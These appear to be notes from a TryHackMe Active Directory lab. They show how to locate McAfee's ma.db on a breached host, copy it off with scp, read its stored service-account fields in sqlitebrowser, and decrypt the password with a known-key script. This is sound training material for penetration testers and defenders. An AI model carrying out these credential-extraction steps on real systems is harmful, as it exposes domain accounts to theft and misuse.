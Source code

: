 Depending on the host that was breached, various configuration files may be of value for enumeration: 
- Web application config files  
- Service configuration files
- Registry keys
- Centrally deployed applications

## Configuration File Credentials
Usually, these applications need a method to authenticate to the domain during both the installation and execution phases. An example of such as application is McAfee Enterprise Endpoint Security, which organisations can use as the endpoint detection and response tool for security.

McAfee embeds the credentials used during installation to connect back to the orchestrator in a file called *ma.db*. This database file can be retrieved and read with local access to the host to recover the associated AD service account.

We will be using the SSH access on THMJMP1 again for this exercise.

The *ma.db* file is stored in a fixed location:
```shell-session
thm@THMJMP1 C:\Users\THM>cd C:\ProgramData\McAfee\Agent\DB
thm@THMJMP1 C:\ProgramData\McAfee\Agent\DB>dir
 Volume in drive C is Windows 10
 Volume Serial Number is 6A0F-AA0F

 Directory of C:\ProgramData\McAfee\Agent\DB      

03/05/2022  10:03 AM    <DIR>          .
03/05/2022  10:03 AM    <DIR>          ..
03/05/2022  10:03 AM           120,832 ma.db      
               1 File(s)        120,832 bytes     
               2 Dir(s) 39,426,285,568 bytes free
```

We can use `SCP` to copy the ma.db to our AttackBox:
```shell-session
thm@thm:~/thm# scp thm@THMJMP1.za.tryhackme.com:C:/ProgramData/McAfee/Agent/DB/ma.db .
thm@10.200.4.249's password:
ma.db 100%  118KB 144.1KB/s   00:00
```

To read the database file, we will use a tool called `sqlitebrowser`. We can open the database using the following command:
```shell-session
thm@thm:# sqlitebrowser ma.db
```

Using sqlitebrowser, we will select the Browse Data option and focus on the AGENT_REPOSITORIES table:
	![](Pasted%20image%2020241115053926.png)
We are particularly interested in the second entry focusing on the DOMAIN, AUTH_USER, and AUTH_PASSWD field entries. Make a note of the values stored in these entries. However, the AUTH_PASSWD field is encrypted. Luckily, McAfee encrypts this field with a known key. Therefore, we will use the following old python2 script to decrypt the password.

**Note:** 
	The tool we will use here is quite old. It uses Python v2 and relies on an old crypto library. If you cannot get the script to work on your own VM, please make use of the AttackBox. However, there has been a recent update to the application to ensure that it works on Python3 as well, you can download the latest version here: [https://github.com/funoverip/mcafee-sitelist-pwd-decryption](https://github.com/funoverip/mcafee-sitelist-pwd-decryption)

You will have to unzip the mcafee-sitelist-pwd-decryption.zip file:
```shell-session
thm@thm:~/root/Rooms/BreachingAD/task7/$ unzip mcafeesitelistpwddecryption.zip
```

By providing the script with our base64 encoded and encrypted password, the script will provide the decrypted password:
```shell-session
thm@thm:~/root/Rooms/BreachingAD/task7/mcafee-sitelist-pwd-decryption-master$ python2 mcafee_sitelist_pwd_decrypt.py <AUTH PASSWD VALUE>
Crypted password   : <AUTH PASSWD VALUE>
Decrypted password : <Decrypted Pasword>
```

